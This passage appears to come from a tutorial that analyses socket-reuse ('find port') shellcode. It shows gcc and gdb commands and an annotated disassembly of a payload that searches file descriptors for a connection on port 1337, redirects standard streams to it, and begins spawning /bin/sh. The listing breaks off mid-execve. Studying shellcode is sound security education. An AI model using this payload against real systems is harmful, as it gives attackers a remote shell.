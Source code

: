```c

}
```

We compile it and run it with gdb :
```plaintext
root@kali:~# gcc -fno-stack-protector -z execstack shellcode.c -o shell-find-port
root@kali:~# gdb ./shell-find-port 
```

And we break at the start of the payload and look at its instructions :
*Note that it will crash if we run it, it's just to see the instructions.*
```nasm
(gdb) set disassembly-flavor intel 
(gdb) break *&payload
(gdb) run
(gdb) disas

   ; socketcall(SYS_GETPEERNAME, *getpeername_args)
   ; getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
   ; 
   ; getpeername will write to *addr the information about the peer connected to sockfd if it is a valid file descriptor
=> 0x00404040 <+0>:	xor    ebx,ebx                    ; set EBX to 0
   0x00404042 <+2>:	push   ebx			  ; push 0

   0x00404043 <+3>:	mov    edi,esp			  ; EDI will point to the memory address 
							  ; before the getpeername arguments

   0x00404045 <+5>:	push   0x10			  ; push the struct sockaddr length
   0x00404047 <+7>:	push   esp                        ; push *addrlen 
   0x00404048 <+8>:	push   edi                        ; push *addr 
   0x00404049 <+9>:	push   ebx                        ; push 0 for sockfd 
   0x0040404a <+10>:	mov    ecx,esp                    ; set ECX point to getpeername arguments
   0x0040404c <+12>:	mov    bl,0x7			  ; SYS_GETPEERNAME type

   ; Start of getpeername loop used to find the file descriptor of the connection to reuse 
   0x0040404e <+14>:	inc    DWORD PTR [ecx]            ; increment sockfd value 
   0x00404050 <+16>:	push   0x66
   0x00404052 <+18>:	pop    eax			  ; EAX set to socketcall number
   0x00404053 <+19>:	int    0x80                       ; execute socketcall

   0x00404055 <+21>:	cmp    WORD PTR [edi+0x2],0x3905  ; compare sockaddr.sin_port with 1337
   0x0040405b <+27>:	jne    0x40404e <payload+14>      ; if not equal, go to the next iteration of the getpeername loop   

   ; Connection found !
   ; Initializing and starting dup2 loop to overwrite stdin/out/err with sockfd
   0x0040405d <+29>:	pop    ebx			  ; EBX set to sockfd
   0x0040405e <+30>:	push   0x2                        
   0x00404060 <+32>:	pop    ecx			  ; ECX set to 2
   0x00404061 <+33>:	mov    al,0x3f                    ; dup2 syscall number
   0x00404063 <+35>:	int    0x80

   0x00404065 <+37>:	dec    ecx			  ; decrement ECX
   0x00404066 <+38>:	jns    0x404061 <payload+33>      ; jump if ECX >= 0

   ; Standard execve("/bin//sh", ["/bin/sh", null], null)
   0x00404068 <+40>:	push   eax			  ; string terminator, because dup2(sockfd, 0) return 0 on success
   0x00404069 <+41>:	push   0x68732f2f		  
   0x0040406e <+46>:	push   0x6e69622f                 ; "/bin//sh"
   0x00404073 <+51>:	mov    ebx,esp                    ; EBX point to "/bin//sh"
   0x00404075 <+53>:	push   eax                        ; null pointer
```